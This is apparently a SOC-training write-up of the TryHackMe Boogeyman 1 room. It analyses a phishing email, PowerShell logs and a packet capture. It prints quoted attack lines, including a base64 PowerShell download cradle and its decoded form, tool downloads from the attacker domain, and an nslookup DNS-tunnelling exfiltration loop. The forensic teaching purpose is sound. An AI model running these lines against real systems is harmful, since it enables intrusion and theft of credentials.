# Boogeyman 1 — CTF Writeup

* **Platform:** TryHackMe  
* **Room:** Boogeyman 1  
* **Category:** DFIR / Phishing Analysis / Network Forensics  
* **Difficulty:** Medium  
* **Analyst:** Mahmoud  
* **Tools:** Thunderbird, LNKParse3, jq, TShark, Wireshark, base64

---

## Scenario Overview

Julianne Westcott, a finance employee at **Quick Logistics LLC**, received a spear-phishing email impersonating their business partner B Packaging Inc. regarding an unpaid invoice. The malicious attachment compromised her workstation, leading to credential theft, data exfiltration via DNS tunneling, and ultimately the full compromise of the company's corporate credit card.

Three artefacts were provided for analysis:
- `dump.eml` — Copy of the phishing email
- `powershell.json` — PowerShell logs from Julianne's workstation
- `capture.pcapng` — Network packet capture from the same workstation

---

## Phase 1 — Phishing Email Analysis

### Question 1 — What is the email address used to send the phishing email?

**Tool:** Thunderbird / text editor on `dump.eml`

```bash
cat dump.eml | grep "From:"
```

The sender address uses a **typosquatted domain** — `bpakcaging.xyz` instead of the legitimate `bpackaging.com` — a deliberate look-alike domain designed to deceive the victim at a glance.

**Answer:**

```
agriffin@bpakcaging.xyz
```


---

### Question 2 — What is the email address of the victim?

```bash
cat dump.eml | grep "To:"
```

**Answer:**

```
julianne.westcott@hotmail.com
```


---

### Question 3 — What is the third-party mail relay service used by the attacker?

```bash
cat dump.eml | grep -i "DKIM-Signature"
```

Inspecting the email headers revealed a secondary `DKIM-Signature` field with `d=elasticemail.com`. The attacker routed the phishing email through **Elastic Email** — a legitimate bulk mail service — to bypass SPF/spam filters and improve deliverability.

**Answer:**

```
Elastic Email
```


---

### Question 4 — What is the name of the file inside the encrypted attachment?

The email contained a password-protected ZIP archive named `Invoice.zip`. Extracting it using the provided password reveals:

```bash
unzip -P Invoice2023! Invoice.zip
```

**Answer:**

```
Invoice_20230103.lnk
```


---

### Question 5 — What is the password of the encrypted attachment?

The password was included in plaintext within the email body — a common social engineering tactic to make the attachment feel legitimate while bypassing automated sandbox detonation.

**Answer:**

```
Invoice2023!
```


---

### Question 6 — What is the encoded payload found in the Command Line Arguments field?

**Tool:** LNKParse3

```bash
lnkparse Invoice_20230103.lnk
```

Forensic analysis of the `.lnk` binary exposed:
- **Icon Masquerading:** Used `excel.ico` to display an Excel spreadsheet icon
- **Target:** `powershell.exe` with a hidden window style

The full encoded argument from the Command Line Arguments field:

**Answer:**

```
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```


**Decoded payload:**

```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```


This downloads and executes the next-stage payload directly into memory — leaving no file on disk.

---

## Phase 2 — PowerShell Log Analysis

**Tool:** `jq` for parsing `powershell.json`

```bash
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]' | jq '{ScriptBlockText}' | sort | uniq
```

---

### Question 7 — What are the domains used by the attacker for file hosting and C2?

From the decoded PowerShell logs, two distinct domains were identified serving different functions:

| Domain | Purpose |
|---|---|
| `cdn.bpakcaging.xyz` | C2 beaconing server (port 8080) |
| `files.bpakcaging.xyz` | Payload and tool hosting server |

**Answer (alphabetical order):**

```
cdn.bpakcaging.xyz,files.bpakcaging.xyz
```



---

### Question 8 — What is the name of the enumeration tool downloaded by the attacker?

```bash
jq '.ScriptBlockText' powershell.json | grep "iwr"
```

The attacker downloaded two tools from the file hosting server:

```powershell
iwr http://files.bpakcaging.xyz/sb.exe -outfile sb.exe
iwr http://files.bpakcaging.xyz/sq3.exe -outfile sq3.exe
```

`sb.exe` is **Seatbelt** — a well-known post-exploitation enumeration tool used to audit system privilege, user, and configuration data.

**Answer:**

```
Seatbelt
```


---

### Question 9 — What is the file accessed by the attacker using sq3.exe?

```bash
jq '.ScriptBlockText' powershell.json | grep "sq3"
```

The attacker used the SQLite CLI binary (`sq3.exe`) to query the Windows Sticky Notes application database:

```powershell
.\sq3.exe C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite
```

**Answer:**

```
C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite
```


---

### Question 10 — What is the software that uses the plum.sqlite file?

**Answer:**

```
Microsoft Sticky Notes
```

---

### Question 11 — What is the name of the exfiltrated file?

```bash
jq '.ScriptBlockText' powershell.json | grep "kdbx"
```

The attacker targeted a KeePass database file located in Julianne's Documents folder:

**Answer:**

```
protected_data.kdbx
```


---

### Question 12 — What file extension does .kdbx use?

**Answer:**

```
KeePass Database
```

---

### Question 13 — What encoding was used during the exfiltration?

```bash
jq '.ScriptBlockText' powershell.json | grep "exfil\|hex\|nslookup"
```

The PowerShell exfiltration script converted the binary `.kdbx` file into a raw **hexadecimal** string before splitting it into 50-character chunks for DNS tunneling:

**Answer:**

```
Hexadecimal
```


---

### Question 14 — What tool was used for exfiltration?

```powershell
ForEach ($line in $split) { nslookup -q=A "$line.bpakcaging.xyz" $destination;}
```

**Answer:**

```
nslookup
```


---

## Phase 3 — Network Traffic Analysis

**Tool:** TShark / Wireshark on `capture.pcapng`

---

### Question 15 — What software is used by the attacker to host the payload server?

```bash
tshark -r capture.pcapng -Y "http.response" -T fields -e http.server | sort -u
```

HTTP response headers from `files.bpakcaging.xyz` reveal the server banner:

**Answer:**

```
SimpleHTTP/0.6 Python/3.10.7
```


The attacker stood up a quick Python `http.server` instance — a common red team technique requiring zero configuration.

---

### Question 16 — What HTTP method is used by the C2 for command output?

```bash
tshark -r capture.pcapng -Y "http.request and http.host contains \"cdn\"" -T fields -e http.request.method | sort | uniq -c
```

The C2 beaconing loop used HTTP GET to poll for new commands, but **HTTP POST** was used to send the output of executed commands back to the attacker's handler — including the custom session tracking header `X-38d2-8f49`.

**Answer:**

```
POST
```



---

### Question 17 — What protocol was used during the exfiltration activity?

Following the DNS traffic in Wireshark and filtering for queries to `167.71.211.113`:

```bash
tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep "bpakcaging"
```

The hexadecimal chunks of `protected_data.kdbx` were each wrapped inside DNS A-record lookup queries — a classic **DNS tunneling** exfiltration technique designed to bypass firewall rules that only inspect HTTP/HTTPS traffic.

**Answer:**

```
DNS
```

---

### Question 18 — What is the password of the exfiltrated file?

By following the C2 HTTP streams in Wireshark and reviewing the SQLite query output sent back via POST, the harvested Sticky Notes content contained a master password entry:

```bash
tshark -r capture.pcapng -z follow,tcp,ascii,660 -q
```

**Answer:**

```
%p9^3!lL^Mz47E2GaT^y
```


---

### Question 19 — What is the credit card number stored inside the exfiltrated file?

With the exfiltrated `protected_data.kdbx` and the recovered master password, the KeePass vault was unlocked offline. Inside the **Homebanking** group:

| Field | Value |
|---|---|
| Entry | Company Card |
| Card Holder | Quick Logistics LLC |
| Card Number | `4024007128269551` |
| CVV | `970` |
| Expiry | `3/2028` |

**Answer:**

```
4024007128269551
```


---

## Full Attack Chain Reconstruction

```
[1] Initial Access
    └─ Spear-phishing email: agriffin@bpakcaging.xyz
    └─ Routed via Elastic Email to bypass spam filters
    └─ Attachment: Invoice.zip (password: Invoice2023!)

[2] Execution
    └─ Extracted: Invoice_20230103.lnk (Excel icon masquerade)
    └─ LNK → powershell.exe -enc [Base64]
    └─ Decoded: iex (new-object net.webclient).downloadstring(...)
    └─ Payload server: files.bpakcaging.xyz (Python SimpleHTTP)

[3] Discovery & Tooling
    └─ Downloaded: sb.exe (Seatbelt) → system enumeration
    └─ Downloaded: sq3.exe (SQLite CLI) → credential harvesting

[4] Credential Theft
    └─ Queried: plum.sqlite (Sticky Notes database)
    └─ Harvested: Master Password: %p9^3!lL^Mz47E2GaT^y

[5] C2 Communication
    └─ Beaconing: cdn.bpakcaging.xyz:8080
    └─ Polling interval: 0.8 seconds
    └─ Session header: X-38d2-8f49
    └─ Command output: HTTP POST

[6] Exfiltration
    └─ Target: protected_data.kdbx (KeePass database)
    └─ Method: DNS Tunneling via nslookup
    └─ Encoding: Hexadecimal (50-char chunks)
    └─ Nameserver: 167.71.211.113

[7] Actions on Objectives
    └─ KeePass unlocked with stolen master password
    └─ Credit card extracted: 4024007128269551
```

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Email | `agriffin@bpakcaging.xyz` | Attacker phishing address |
| Domain | `files.bpakcaging.xyz` | Payload hosting (Python SimpleHTTP) |
| Domain | `cdn.bpakcaging.xyz` | C2 server (port 8080) |
| IP Address | `167.71.211.113` | Attacker DNS exfiltration nameserver |
| File | `Invoice_20230103.lnk` | Malicious LNK dropper |
| File Path | `...\LocalState\plum.sqlite` | Harvested Sticky Notes database |
| File Path | `...\Documents\protected_data.kdbx` | Exfiltrated KeePass database |
| Password | `%p9^3!lL^Mz47E2GaT^y` | Stolen KeePass master password |
| Card Number | `4024007128269551` | Compromised corporate credit card |

---

## Key Commands Reference

```bash
# Email header analysis
cat dump.eml | grep -i "From:\|To:\|DKIM-Signature:"

# Extract ZIP attachment
unzip -P Invoice2023! Invoice.zip

# LNK forensics
lnkparse Invoice_20230103.lnk

# Decode Base64 PowerShell payload
echo "aQBlAHgA..." | base64 -d

# Parse PowerShell JSON logs
jq '.ScriptBlockText' powershell.json | grep -v "null"

# Find tool downloads
jq '.ScriptBlockText' powershell.json | grep "iwr\|Invoke-WebRequest"

# DNS exfiltration traffic
tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep "bpakcaging"

# C2 HTTP traffic
tshark -r capture.pcapng -Y "http.request.method==POST" -T fields \
  -e ip.dst -e http.request.uri
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment |
| Execution | T1059.001 | PowerShell |
| Execution | T1204.002 | User Execution: Malicious File (.lnk) |
| Defense Evasion | T1027 | Obfuscated Files or Information (Base64) |
| Defense Evasion | T1036 | Masquerading (Excel icon on LNK) |
| Discovery | T1082 | System Information Discovery (Seatbelt) |
| Credential Access | T1555 | Credentials from Password Stores |
| Credential Access | T1552.001 | Unsecured Credentials (Sticky Notes) |
| Command & Control | T1071.001 | Web Protocols (HTTP beaconing) |
| Command & Control | T1071.004 | DNS (tunneling exfiltration) |
| Exfiltration | T1048.003 | Exfiltration Over Alternative Protocol (DNS) |
| Impact | T1657 | Financial Theft |

---

## Lessons Learned

1. **Email gateway hardening** — Block newly registered or typosquatted domains. `bpakcaging.xyz` vs `bpackaging.com` should trigger a domain similarity alert.
2. **Disable LNK execution from untrusted locations** — Group Policy can block `.lnk` files from running PowerShell with hidden window styles.
3. **Never store credentials in Sticky Notes** — Sticky Notes content is stored in a plaintext SQLite database with no encryption. Use a properly secured password manager.
4. **Monitor outbound DNS volume** — Hundreds of sequential nslookup queries in a short window is a strong indicator of DNS tunneling exfiltration.
5. **Block PowerShell download cradles** — `iex (new-object net.webclient).downloadstring()` is one of the most common in-memory payload delivery techniques and should be alerted on immediately.
6. **KeePass master passwords** must never be stored in any local plaintext format — even encrypted password managers are only as secure as their master credential storage.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: Boogeyman 1*